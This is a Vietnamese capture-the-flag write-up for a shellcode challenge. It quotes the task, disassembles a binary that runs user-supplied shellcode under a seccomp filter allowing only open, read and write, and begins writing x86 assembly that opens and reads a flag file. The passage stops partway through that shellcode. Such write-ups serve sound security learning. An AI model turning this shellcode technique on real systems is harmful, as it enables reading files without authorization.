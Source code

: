 Bài này thì đề như là đề mở vậy vì đề bài đã hướng dẫn cả rồi:
```
Read the flag from /home/orw/flag.
Only open read write syscall are allowed to use.
```

Còn khi vào chạy thử thì chương trình in ra chuỗi *"Give my your shellcode:"* không biết phải trêu mình hay không, nhưng mà vẫn nên disassemble cho chắc ăn vậy 😆😆😆

```
0x08048548 <+0>:	lea    ecx,[esp+0x4]
   0x0804854c <+4>:	and    esp,0xfffffff0
   0x0804854f <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048552 <+10>:	push   ebp
   0x08048553 <+11>:	mov    ebp,esp
   0x08048555 <+13>:	push   ecx
   0x08048556 <+14>:	sub    esp,0x4
   0x08048559 <+17>:	call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave  
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
   0x08048598 <+80>:	ret    

```

Bài này đã dùng 1 phiên bản nâng cấp hơn của asm so với bài trước để viết, dùng nhiều hàm hơn như hàm printf@plt,read@plt,... và cả hàm [orw_seccomp](https://man7.org/linux/man-pages/man2/seccomp.2.html) về cơ bản thì orw_seccomp là 1 hàm lọc sys_call, nên là như đề bài cho thì chỉ có sys_open = 5, sys_read = 3, sys_write = 4 là được cho phép!

Với dữ kiện là địa chỉ của file flag và 3 phương thức trên thì bài này chủ yếu sẽ là mình viết ra được cái shellcode để lấy được flag về và in ra! Điều đó có nghĩa flow sẽ là :
```
sys_open(filename="/home/orw/flag")
sys_read()
sys_write()
```

Dựa vào luồng ở trên thì chúng ta phải cố gắng search gg 7749 cách để viết ra được cái shellcode dạng code asm như sau : 
Đầu tiên phải chuyển string sang bytes : 
```
/home/orw/flag = 2f 68 6f 6d  65 2f 6f 72  77 2f 66 6c  61 67
```
Vậy push chuỗi lần lượt là :
```
push 0x6761;
push 0x6c662f77;
push 0x726f2f65;
push 0x6d6f682f;
mov eax,0x5;  sys_open
mov ebx,esp;  push str
int 0x80; 
mov eax,0x3;  sys_read file
mov ebx,0x3;
```